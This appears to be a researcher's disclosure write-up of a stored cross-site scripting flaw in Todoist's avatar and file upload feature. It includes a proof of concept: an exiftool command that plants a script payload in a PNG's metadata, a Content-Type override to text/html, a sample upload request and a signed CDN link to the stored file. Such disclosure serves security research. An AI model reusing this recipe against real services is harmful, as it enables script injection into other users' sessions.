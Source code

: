 # Todoist App v8484 Stored XSS
I discovered a Stored XSS vulnerability on Todoist's platform through the avatar upload feature
Unrestricted file uploads allowing crafted image files,

    Lack of server-side MIME type verification, and

    Improper sanitization of image metadata (PNG tEXt chunk - Comment field).

This allows an attacker to upload a PNG file that executes arbitrary JavaScript when rendered, leading to stored XSS.

 PoC Technical Details

    Vulnerability Location:

        https://app.todoist.com/app/project/

        https://app.todoist.com/app/task/

    Attack Method:

        A PNG image is created and injected with a script payload into the Comment field using exiftool.
    Exiftool Command:

exiftool -Comment='"><script>alert(prompt("XSS BY Sencer Kilic & Berat Aksit"))</script>' pngtoxss.png 


<img width="750" height="54" alt="1" src="https://github.com/user-attachments/assets/c31c94a9-244e-428d-ad2d-d88f0926fa42" />



    This creates a malicious metadata chunk:

tEXtComment"><script>alert(prompt("XSS BY Sencer Kilic & Berat Aksit"))</script>

<img width="796" height="327" alt="2" src="https://github.com/user-attachments/assets/a6e0fc8a-da12-415f-9829-f526b36524f0" />



    The PNG is then uploaded via the avatar or file upload function.

Content-Type Override:

    During upload, using Burp Suite, the Content-Type header of the file is changed:

        From: image/png

        To: text/html

Request Sample:

POST /api/v1/uploads HTTP/2
Host: app.todoist.com
Content-Type: multipart/form-data; boundary=...
...
Content-Disposition: form-data; name="file"; filename="pngtoxss.png"
Content-Type: text/html

<img width="950" height="466" alt="2" src="https://github.com/user-attachments/assets/e2170ba6-3f24-4d64-ab6f-cfaa5ebe41f7" />

<img width="783" height="428" alt="3" src="https://github.com/user-attachments/assets/cd344eef-d74b-4a4f-aa13-93b4a34ae577" />

<img width="954" height="491" alt="5" src="https://github.com/user-attachments/assets/1f191fdd-6fad-4afc-aad4-6ef8b84f11b1" />


Result:
The file is successfully uploaded and stored on cloudfront.net 

CDN:

   https://d1ysz50cxb9zwl.cloudfront.net/.../file.png

  https://d1ysz50cxb9zwl.cloudfront.net/Hqrm6dtqk-uJQqsDlBsHlaXJGVfNsdSWndNtYEhynhPp75G4kI4Gvo6ZyPeL6Zce/by/54863037/as/file.png?Expires=1753944966&Signature=SSZgohwHkdjD9vC7CHs03rYFR5OLwnBGgXk2ciwXdMVkeRH2BEspYiHSI1RgJIWc9amiPnbvIO2u7BFFBvnfDTuhTisfmOYAQRo8OsGFGDe0KSeOqCr8eH9H7JQtvxreko0ih4diqURD8WCt4man6Vka0AMGs59s-n68P~4x~TYIGfeuUPgQY-CX8tcRdSE0NrWLHL6Of7w02jWA2Nk1giZt~~CStwGdO3diFxS5lYorZ7lkvnCe~9VObDdASogr-2YKDamVvqtORqwAwpibyxoTKvw00lVLLJDqqT9yRC~jIkJksqWhkfbuqF3iYJh4g5BkHK1ML-EGlTCLqMk-9Q__&Key-Pair-Id=APKAJAERRT46LD6FN4NA

  
   <img width="952" height="428" alt="3" src="https://github.com/user-attachments/assets/e05452c5-1c8f-4a30-8be3-e8bb3a3e6fe2" />



    When previewed or rendered, the embedded JavaScript executes due to improper sanitization and MIME type handling.


    
